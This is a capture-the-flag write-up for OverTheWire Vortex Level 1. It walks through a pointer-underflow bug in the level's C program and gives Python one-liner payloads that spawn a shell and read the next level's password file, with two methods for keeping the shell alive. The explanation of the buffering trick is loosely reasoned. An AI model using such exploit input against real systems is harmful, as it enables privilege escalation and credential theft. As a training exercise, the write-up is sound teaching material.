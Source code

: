 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 1"
---
```


![Logo](/assets/images/vortex1.png)

## Context
The level can be found [here](http://overthewire.org/wargames/vortex/vortex1.html). After analyzing the C source code, we understand the flow and information needed to exploit:
* There's a 512 bytes buffer and a pointer _`ptr`_ that initially points in the middle of the buffer.
* For every **\** character read, the pointer is decremented.
* For every character read which is different than **\n** and **\** we have the possibility to set a byte in _`ptr`_: 
> ptr++[0] = x;
* The _`e()`_ macro spawns an [interactive bash shell](http://www.gnu.org/software/bash/manual/bashref.html#Interactive-Shells) (**-i** parameter) and also replaces the image of the current process with _`/bin/sh`_, through [_`execlp`_](http://linux.die.net/man/2/execve) function. Very important to remember, from here: 
> By default, file descriptors remain open across an execve()
* The condition to trigger shell execution can be easily accomplished, given the third point.

Taken these into account, let's try to launch a shell and execute a command:
```bash
$ python -c 'print "\\"*257 + "\xca" + "A" + "\nwhoami"' | ./vortex1
```

The shell exits immediately, without executing the command. Now it's time to check what happens, how bash handles _`EOF`_.

### Method 1
We can actually find a very detailed explanation in this [blog post](http://byteninja.blogspot.ro/2011/09/overthewireorg-vortex-level1.html). The idea is that  when _`execlp`_ is executed, the image of the current process is replaced with  _`/bin/sh`_. But _`execlp`_ doesn't clear STDIN.  So the unparsed input it's still there. The shell is exiting immediately, because it receives an EOF. To overcome this, something in the bash manual comes to help: 
> When invoked as an interactive shell with the name sh, bash looks for  the variable  ENV,  expands  its value if it is defined, and uses the expanded value as the name of a file to read and execute.

So we create a new file containing our commands, set the _`ENV`_ variable before and get the password:
```bash
$ vi /tmp/cmd2
cat /etc/vortex_pass/vortex2
 
$ python -c 'print "\\"*257 + "\xca" + "A"' | env ENV=/tmp/cmd2 /vortex/vortex1
```

### Method 2

Some solutions report that a long string before the command causes the command to be actually executed, without an apparent explanation, like this for example:
```bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*4000+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ sh: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
$ vortex2
******
```


To understand this, the following [article](http://www.pixelbeat.org/programming/stdio_buffering/) explains the **_buffering applied to standard streams_**, with an example with two processes forked  by bash with a pipe between them, very similar with our case:
```bash
$ command1 | command2
```
The idea is that the kernel uses 4096 bytes circular buffers (for stdin, stdout, and pipe). Being circular, the 4000 characters together with the existent content fill the buffer, and the next part of input does not contain an EOF and commands are executed. Actually, instead of the 4000 "A"s, we just need 4096-257-2-1=3836 extra characters:
```
bash
$ python -c 'print  "\\"*0x101+"\xcaA\n"+"A"*3836+"\nwhoami\ncat /etc/vortex_pass/vortex2"' |/vortex/vortex1
$ $ vortex2
$ ******
```
